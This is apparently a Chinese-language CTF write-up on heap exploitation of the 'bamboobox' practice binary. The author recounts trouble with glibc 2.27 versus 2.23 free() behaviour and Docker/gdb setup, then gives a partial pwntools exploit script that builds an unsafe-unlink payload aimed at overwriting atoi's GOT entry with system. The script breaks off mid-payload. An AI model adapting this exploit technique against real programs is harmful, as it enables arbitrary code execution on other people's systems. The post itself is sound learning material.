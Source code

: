 - 哇塞真的好菜啊TAT



## **惊天大坑！**

昨天一晚上今天一上午，我都在想，为什么，我的exp让一个chunk在free之后，只是把相关数据清零，但是这个chunk并没有被放进任何一个bins。    

然后我找了别人的exp跑了一下，卡死了。   

我直接用gdb调试二进制文件，发现不是exp的原因，free()这个函数就很玄学，他不按说好的来啊根本就！！   

我环境是glibc2.27, 师傅让我在2.23里面跑一下。   
发现是没问题的。

<font style="font-size:10px">  
含恨在2.23里面调试，但是2.23不行啊，生成容器的时候默认的安全机制开太大了gdb根本没法用。师傅说的解决方法我没有理解，于是又看了一下午docker怎么用 *[露出菜鸟的疲惫微笑]* 。我以为就是在run一个新的容器就好，没想到这个最简单的镜像里啥都没有。这里不得不说感谢师傅帮忙装好了python和gdb和一些别的环境，我一下子真的弄不来[头秃]。最后灵光一闪懂了大佬说的那个解决方法，用现有容器commit一个镜像再run一个容器。【菜是真的菜】</font>

那么2.27到底是个什么机制我也没有搜到。

## exp

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh', '-c']
sh = process('./bamboobox')
elf = ELF('./bamboobox')
libc = elf.libc

atoi_libc = libc.symbols['atoi']
atoi_got = elf.got['atoi']
system_libc = libc.symbols['system']
notelist_addr = 0x6020C8

def add_note(length,content):
    sh.sendlineafter('choice:','2')
    sh.sendlineafter('name:',str(length))
    sh.sendlineafter('item:',content)

def show_note(idx):
    sh.sendlineafter('choice:','1')
    sh.recvuntil(str(idx)+' :')
    addr = u64(sh.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    return addr

def change_note(idx,length,content):
    sh.sendlineafter('choice:','3')
    sh.sendlineafter('item:',str(idx))
    sh.sendlineafter('name:',str(length))
    sh.sendafter('item:',content)

def del_note(idx):
    sh.sendlineafter('choice:','4')
    sh.sendlineafter('item',str(idx))


add_note(0x80,'a'*8)
add_note(0x80,'b'*8)

payload = p64(0) + p64(0x81) + p64(notelist_addr -24) + p64(notelist_addr - 16) 
payload = payload.ljust(0x80,'A')
payload += p64(0x80) + p64(0x90) 
```